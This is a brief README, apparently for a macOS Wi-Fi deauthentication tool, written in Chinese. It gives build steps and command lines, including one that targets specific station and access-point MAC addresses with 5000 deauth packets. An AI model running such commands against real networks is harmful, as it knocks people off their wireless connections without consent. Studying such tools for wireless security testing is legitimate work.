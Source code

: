 #描述

用来断开工作站(Station)与接入点(AP)的连接

#运行环境

macOS

#编译&运行
	$make
	$./deauth <interface> -s <Station> -a <Access points>
	$./deauth en1 -s b0:65:bd:19:b0:73 -a d8:24:bd:76:5c:30 --rate 10 --number 5000
	
#抓包
	
![](./tmp22da96d5.png)
	
